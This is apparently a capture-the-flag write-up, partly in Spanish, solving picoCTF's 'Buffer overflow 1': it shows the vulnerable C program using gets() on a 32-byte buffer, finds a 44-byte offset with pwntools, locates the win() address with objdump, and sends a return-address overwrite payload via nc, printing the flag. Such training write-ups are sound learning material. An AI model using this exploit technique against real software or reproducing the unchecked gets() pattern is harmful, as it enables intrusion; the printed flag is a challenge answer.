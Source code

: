 # Buffer overflow 1

## Objetivos
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/250/vuln). You can view source [here](https://artifacts.picoctf.net/c/250/vuln.c). And connect with it using `nc saturn.picoctf.net 63447`


## Solución 
```java
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3                       
Python 3.10.7 (main, Sep  8 2022, 14:34:29) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

┌──(kali㉿kali)-[~/Downloads]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln


┌──(kali㉿kali)-[~/Downloads]
└─$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' | nc saturn.picoctf.net 62439                   



Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}

```
## Notas adicionales 

Este reto al igual que el anterior, utiliza un buffer y un gets entonces sabiendo esto sabemos por donde podemos empezar para atacar sobrepasando el buffer, el problema es que no sabemos cuantos caracteres tenemos que mandar ; para esto vamos a usar python y las herramientas pwn tools para crear un buffer mayor al de 32 que es el que utiliza el programa 

podemos usar esta función en python para verificar cual es el lugar exacto o los caracteres exatos para el retorno de la bandera, 

```
>>> cyclic_find(0x6161616c)
>>> 44

```

Ahora para nuetro win vamos hacer lo siguiente 

```
┌──(kali㉿kali)-[~/Downloads]
└─$ objdump -D vuln -M intel | grep 'win'        
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
                                                                                                                               
┌──(kali㉿kali)-[~/Downloads]
└─$ 


>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
>>> 

```